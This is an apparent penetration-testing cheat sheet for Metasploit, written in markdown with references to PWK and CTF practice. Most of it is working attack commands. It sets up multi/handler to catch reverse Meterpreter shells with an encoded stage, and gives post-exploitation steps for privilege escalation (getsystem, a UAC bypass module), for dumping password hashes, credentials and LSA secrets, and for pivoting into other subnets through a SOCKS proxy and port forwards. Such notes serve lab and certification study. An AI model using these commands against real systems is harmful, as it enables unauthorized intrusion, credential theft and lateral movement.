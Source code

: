 # Metasploit
```default
  MMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMM  
  MMMMMMMMMMM                MMMMMMMMMM  
  MMMN$                           vMMMM  
  MMMNl  MMMMM             MMMMM  JMMMM  
  MMMNl  MMMMMMMN       NMMMMMMM  JMMMM  
  MMMNl  MMMMMMMMMNmmmNMMMMMMMMM  JMMMM  
  MMMNI  MMMMMMMMMMMMMMMMMMMMMMM  jMMMM  
  MMMNI  MMMMMMMMMMMMMMMMMMMMMMM  jMMMM  
  MMMNI  MMMMM   MMMMMMM   MMMMM  jMMMM  
  MMMNI  MMMMM   MMMMMMM   MMMMM  jMMMM  
  MMMNI  MMMNM   MMMMMMM   MMMMM  jMMMM  
  MMMNI  WMMMM   MMMMMMM   MMMM#  JMMMM  
  MMMMR  ?MMNM             MMMMM .dMMMM  
  MMMMNm `?MMM             MMMM` dMMMMM  
  MMMMMMN  ?MM             MM?  NMMMMMN  
  MMMMMMMMNe                 JMMMMMNMMM  
  MMMMMMMMMMNm,            eMMMMMNMMNMM  
  MMMMNNMNMMMMMNx        MMMMMMNMMNMMNM  
  MMMMMMMMNMMNMMMMm+..+MMNMMNMNMMNMMNMM        
```

Start as sudo/root if you want to bind to low ports.
```bash
sudo msfdb init && sudo msfconsole
```

Basic commands:
```bash
msf> search <module>
msf> use <module>
msf> help
```

In a module, show full module info:
```bash
msf> info
```

In a module only show settable options:
```bash
msf> show options
```

Run module:
```bash
msf> run
```

Run module as background job:
```bash
msf> run -j
msf> jobs
```


## multi/handler

Used to catch reverse shells of all kinds.

```bash
msf> use multi/handler
```

Set it to the payload you used in your msfvenom command.

```bash
msf> set payload windows/meterpreter/reverse_tcp
```

You can set LHOST to your local IP address or just use an interface name.

```bash
msf> set LHOST 192.168.0.2
msf> set LHOST tun0
```

Set the listening port:
```bash
msf> set LPORT 53
```

If you used a binary exploit payload, then also set the correct EXITFUNC.
```bash
msf> set EXITFUNC thread
msf> set EXITFUNC process
msf> set EXITFUNC seh
```

Start listening:
```bash
msf> run
```

You can also set a stage encoder for staged payloads:
```bash
msf> set EnableStageEncoding true
msf> set StageEncoder x86/shikata_ga_nai
```

Migrate to another process automatically after connecting:
```bash
msf> set AutoRunScript post/windows/manage/migrate
```

## Meterpreter

```bash
meterpreter> getuid
meterpreter> sysinfo
meterpreter> shell
```

Migrate to another process
```bash
meterpreter> run post/windows/manage/migrate
```

Background meterpreter sessions
```bash
meterpreter> background
```

list active sessions
```bash
msf> sessions
```

Rejoin backgrounded session
```bash
msf> sessions -i 2
```

Attempt to elevate to SYSTEM user:
```bash
meterpreter> getsystem
```

Local exploit suggester
```bash
meterpreter> run post/multi/recon/local_exploit_suggester
```

Bypass UAC
```bash
msf> use exploit/windows/local/bypassuac_injection_winsxs
```

Enum applications
```bash
meterpreter> run post/windows/gather/enum_applications
```

Logged in users
```bash
meterpreter> run post/windows/gather/enum_logged_on_users
```

Dump hashes
```bash
meterpreter> run post/windows/gather/hashdump
meterpreter> run post/windows/gather/credentials/credential_collector
```

Dump lsa 
```bash
meterpreter> run post/windows/gather/lsa_secrets
```

ARP_scanner (beware, probably banned in PWK and CTFs)
```bash
run post/windows/gather/arp_scanner RHOSTS=192.168.1.0/24
```

Check if you are on a virtual machine (honeypot check, but do not rely on this)
```bash
meterpreter> run post/windows/gather/checkvm
```

## Pivoting

Scenario: you have a meterpreter shell (let's say #7) on a machine that is double-homed with a network interface leading to another subnet 10.8.8.0/24

First create a route to the new subnet:
```bash
msf> route add <subnet> <netmask> <meterpreter-session-num>
msf> route add 10.8.8.0 255.255.255.0 7
```

Next start the socks proxy module. The socks proxy will be aware of your routes.
```bash
msf> use auxiliary/server/socks4a
msf> set SRVPORT 1080
msf> run -j
```

Add the following entry at the bottom of `/etc/proxychains.conf`
```bash
socks4  127.0.0.1    1080
```

Now you can use:
```bash
proxychains nmap -T4 -F 10.8.8.42
```
...in order to scan a machine in the other subnet. 
You will probably only be able to TCP CONNECT scan through the socks proxy.

You can create a FoxyProxy settting in order to visit websites.

### Single port forward

Some actions works better with a singular port forward instead of SOCKS, such as database interaction or FTP.

```bash
meterpreter> portfwd add -l 3389 -p 3389 -r [target host]

# -l [local-listening-port]
# -p [destination-port]

```

